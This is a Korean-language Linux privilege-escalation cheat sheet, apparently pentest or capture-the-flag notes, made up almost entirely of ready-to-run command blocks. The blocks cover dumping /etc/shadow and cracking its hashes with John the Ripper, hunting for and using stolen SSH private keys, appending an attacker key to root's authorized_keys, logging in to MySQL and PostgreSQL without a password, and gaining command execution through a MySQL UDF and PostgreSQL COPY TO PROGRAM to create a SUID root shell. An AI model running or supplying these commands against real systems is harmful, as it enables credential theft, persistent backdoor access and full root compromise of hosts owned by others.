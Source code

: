 ### 🔐 /etc/shadow 읽기 권한

```bash
# 1. 권한 확인
ls -la /etc/shadow

# 2. shadow 파일 내용 확인
cat /etc/shadow

# 3. 해시 추출 및 크랙
cat /etc/shadow | grep root
# John the Ripper로 크랙
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt

# 4. 빈 패스워드 계정 찾기
cat /etc/shadow | grep -E "^[^:]*::"
```

### 🗝️ SSH 키 오용

```bash
# 1. SSH 키 파일 찾기
find / -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null

# 2. 읽기 가능한 개인키 확인
find / -name "id_rsa*" -readable 2>/dev/null
cat /home/user/.ssh/id_rsa 2>/dev/null

# 3. SSH로 접속 시도
chmod 600 /tmp/stolen_key
ssh -i /tmp/stolen_key root@localhost
ssh -i /tmp/stolen_key user@localhost

# 4. authorized_keys 파일 수정 가능시
echo 'ssh-rsa YOUR_PUBLIC_KEY root@kali' >> /root/.ssh/authorized_keys
echo 'ssh-rsa YOUR_PUBLIC_KEY root@kali' >> /home/user/.ssh/authorized_keys
```

### 🗄️ 데이터베이스 접근 오류

```bash
# 1. MySQL 패스워드 없는 접근
mysql -u root
mysql -u root -p''
mysql -u '' -p''

# 2. MySQL 권한상승
mysql -u root -e "use mysql; update user set authentication_string=PASSWORD('newpass') where User='root'; flush privileges;"

# 3. UDF (User Defined Function) 익스플로잇
mysql -u root -e "CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.so';"
mysql -u root -e "SELECT sys_exec('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');"

# 4. PostgreSQL 접근
psql -U postgres
psql -U postgres -h localhost -p 5432

# 5. PostgreSQL 명령 실행
psql -U postgres -c "COPY (SELECT '') TO PROGRAM 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash';"
```
